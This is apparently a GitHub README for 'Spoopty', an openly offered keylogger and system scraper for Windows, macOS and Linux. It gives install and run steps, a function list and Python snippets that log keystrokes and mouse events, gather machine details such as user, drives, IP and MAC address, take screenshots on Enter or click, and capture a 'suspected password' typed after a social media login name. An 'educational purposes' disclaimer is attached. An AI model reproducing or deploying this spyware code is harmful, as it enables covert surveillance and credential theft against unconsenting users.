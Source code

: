 # Spoopty Keylogger and System Scraper

## Description

Spoopty is a keylogger and system monitor that logs keyboard inputs, mouse movements, mouse clicks, and mouse scrolls along with the corresponding window information, process names, and URLs. It also captures screenshots when specific events occur, such as pressing the Enter key or clicking the left mouse button. The script is designed to work on Windows, macOS, and Linux operating systems.

## Variable Definitions

- `os_name`: The name of the operating system (e.g., Windows, Darwin, Linux).
- `current_datetime`: The current date and time formatted as "YYYY-MM-DD_HH-MM-SS".
- `log_file`: The path to the log file where the captured information will be stored.
- `active_window`: The currently active window information.
- `active_url`: The URL of the currently active window.
- `suspected_password`: The suspected password captured during the password entry process.
- `password_entry_started`: A flag indicating whether the password entry process has started.

## Installation

1. Clone the repository or download the script file.
2. Install the required dependencies by running the following command:
   ```
   pip install -r requirements.txt
   ```

## Architecture Overview

The script consists of the following main components:

1. **Logging Configuration**: The script configures the logging system to store the captured information in a log file named `Logs/{os_name}_{current_datetime}.log`.

2. **Machine Information**: The script retrieves various machine information such as operating system details, network type, user account, drive mappings, and more. This information is logged at the start of the script.

3. **Webpage Source Retrieval**: The script provides functions to retrieve the source code of a webpage using either the `requests` library or platform-specific methods.

4. **Input Name Extraction**: The script analyzes the webpage source to extract the names of input fields and buttons based on the cursor position.

5. **Screenshot Capture**: The script captures screenshots of each monitor when specific events occur, such as pressing the Enter key or clicking the left mouse button. The screenshots are saved in the "Screen Captures" directory.

6. **Social Media URL Detection**: The script checks if a URL belongs to a social media platform based on a predefined list of social media URLs.

7. **Keyboard and Mouse Monitoring**: The script uses the `pynput` library to monitor keyboard and mouse events. It logs the captured information along with the corresponding window information, process names, and URLs.

## Usage Examples

1. Run the script using the following command:
   ```
   python spoopty.py
   ```

2. The script will start monitoring keyboard and mouse events and capturing relevant information.

3. The captured information will be logged in the `Logs/{os_name}_{current_datetime}.log` file.

4. Screenshots will be captured when specific events occur and saved in the "Screen Captures" directory.

5. To stop the script, press `Ctrl+C` in the terminal or command prompt.

## Function Descriptions

- `get_machine_info()`: Retrieves various machine information such as operating system details, network type, user account, drive mappings, and more.
- `log_machine_info()`: Logs the machine information at the start of the script.
- `get_webpage_source(url)`: Retrieves the source code of a webpage using either the `requests` library or platform-specific methods.
- `get_input_name(url, x, y)`: Analyzes the webpage source to extract the name of an input field or button based on the cursor position.
- `get_window_info()`: Retrieves information about the currently active window (not available on all operating systems).
- `take_screenshot(process_name)`: Captures screenshots of each monitor and saves them in the "Screen Captures" directory.
- `is_social_media_url(url)`: Checks if a URL belongs to a social media platform based on a predefined list of social media URLs.
- `extract_social_media_info(text)`: Extracts email addresses and social media usernames from the provided text using regular expressions.
- `on_press(key)`: Callback function triggered when a key is pressed.
- `on_release(key)`: Callback function triggered when a key is released.
- `on_move(x, y)`: Callback function triggered when the mouse is moved.
- `on_click(x, y, button, pressed)`: Callback function triggered when a mouse button is clicked.
- `on_scroll(x, y, dx, dy)`: Callback function triggered when the mouse is scrolled.

## Legal and Ethical Disclaimer

This script is provided for educational and informational purposes only. The use of keyloggers and monitoring tools may be subject to legal restrictions and ethical considerations. It is the responsibility of the user to ensure compliance with all applicable laws and regulations and to obtain proper authorization before using this script.

The authors and contributors of this script are not liable for any misuse, damage, or legal consequences arising from the use of this script. By using this script, you acknowledge and agree that you are solely responsible for your actions and any consequences that may result from using this script.

Please use this script responsibly and respect the privacy and rights of others.

## Code Snippets

Here are a few relevant code snippets from the script:

1. Logging configuration:
   ```python
   log_file = f'Logs/{os_name}_{current_datetime}.log'
   logging.basicConfig(filename=log_file, level=logging.INFO, format='%(asctime)s - %(message)s')
   ```

2. Retrieving machine information:
   ```python
   def get_machine_info():
       info = []
       info.append(f"Operating System: {platform.system()} {platform.release()}")

       if psutil:
           info.append(f"Network Type: {psutil.net_if_stats()}")
           info.append(f"User Account: {psutil.users()[0].name}")
           info.append(f"User Access Level: {psutil.Process().username()}")
           info.append(f"Drive Mappings: {psutil.disk_partitions()}")
           info.append(f"Drive Names: {[i.mountpoint for i in psutil.disk_partitions()]}")

       info.append(f"Domain: {socket.getfqdn()}")
       info.append(f"IPv4: {socket.gethostbyname(socket.gethostname())}")
       info.append(f"MAC Address: {':'.join(c + d for c, d in zip(*[iter(hex(uuid.getnode())[2:].zfill(12))]*2))}")

       return '\n'.join(info)
   ```

3. Capturing screenshots:
   ```python
   def take_screenshot(process_name):
       timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
       screenshot_dir = "Screen Captures"
       os.makedirs(screenshot_dir, exist_ok=True)
       
       if mss:
           with mss.mss() as sct:
               for i, monitor in enumerate(sct.monitors[1:], start=1):
                   screenshot_name = f"{screenshot_dir}/{timestamp}_{process_name}_monitor{i}.png"
                   sct.shot(mon=monitor, output=screenshot_name)
   ```

4. Keyboard and mouse monitoring:
   ```python
   def on_press(key):
       global active_window, active_url, suspected_password, password_entry_started
       
       window_info = get_window_info()
       process_name = window_info.split(' - ')[1] if ' - ' in window_info else 'unknown'
       log_entry = f'Key pressed: {key} - Process: {process_name} - Window Info: {window_info}'

       if isinstance(key, keyboard.KeyCode):
           emails, usernames = extract_social_media_info(key.char)
           if emails:
               log_entry += f' - Social Media Email(s): {", ".join(emails)}'
               active_window = window_info
               active_url = window_info.split(' - URL:')[-1].strip() if ' - URL:' in window_info else ''
               password_entry_started = True
               suspected_password = ''
           if usernames:
               log_entry += f' - Social Media Username(s): {", ".join(usernames)}'
               active_window = window_info
               active_url = window_info.split(' - URL:')[-1].strip() if ' - URL:' in window_info else ''
               password_entry_started = True
               suspected_password = ''
           
           if password_entry_started:
               if key == keyboard.Key.enter:
                   log_entry += f' - Suspected Password: [{suspected_password}]'
                   password_entry_started = False
               elif key == keyboard.Key.backspace:
                   suspected_password = suspected_password[:-1]
               else:
                   suspected_password += key.char
       
       log_entry = f'[Keyboard Input] {log_entry}'
       logging.info(log_entry)

       if key == keyboard.Key.enter:
           take_screenshot(process_name)
   ```

Please refer to the script file for the complete code and implementation details.

